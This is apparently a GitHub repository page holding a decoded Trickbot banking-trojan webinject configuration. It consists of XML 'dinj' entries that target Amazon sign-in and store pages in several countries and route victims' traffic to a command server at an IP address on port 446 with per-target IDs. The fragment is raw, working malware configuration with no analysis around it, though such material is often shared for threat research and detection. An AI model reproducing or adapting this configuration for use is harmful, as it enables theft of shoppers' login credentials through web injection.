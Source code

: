# Trickbot_Dinj_Sinj

Decoded Webinject config Trickbot



</igroup>
<dinj>
<lm>*amazon.*</lm>
<hl>https://185.202.174.13:446/response.php?s=1527163537124692&id=DeJENQHkNQsIpSv5YWb8</hl>
<pri>100</pri>
<sq>2</sq>
<ignore_mask>https://www.amazon.co.uk/ap/signin</ignore_mask>
<ignore_mask>https://www.amazon.co.uk/*</ignore_mask>
<ignore_mask>https://www.amazon.co.uk/gp/yourstore/home*</ignore_mask>
<ignore_mask>https://sellercentral.amazon.com/ap/signin*</ignore_mask>
<ignore_mask>https://sellercentral.amazon.com/gp/notifications/notification-widget-internals.html*</ignore_mask>
<ignore_mask>*popokai.com*</ignore_mask>
<ignore_mask>*.js*</ignore_mask>
<ignore_mask>https://www.amazon.de/ap/signin</ignore_mask>
<ignore_mask>https://www.amazon.ca/ap/signin</ignore_mask>
<ignore_mask>https://www.amazon.de/gp/yourstore/home*</ignore_mask>
<ignore_mask>https://www.amazon.ca/gp/yourstore/home*</ignore_mask>
<ignore_mask>https://www.amazon.ca/*</ignore_mask>
<ignore_mask>https://www.amazon.de/*</ignore_mask>
<require_header>*text/html*</require_header>
</dinj>
<dinj>
<lm>https://www.amazon.co.uk/ap/signin</lm>
<hl>https://185.202.174.13:446/response.php?s=1527163537124692&id=sL5FRia9p0kAxzAm7uXQ</hl>
<pri>100</pri>
<sq>2</sq>
<ignore_mask>*popokai.com*</ignore_mask>
</dinj>
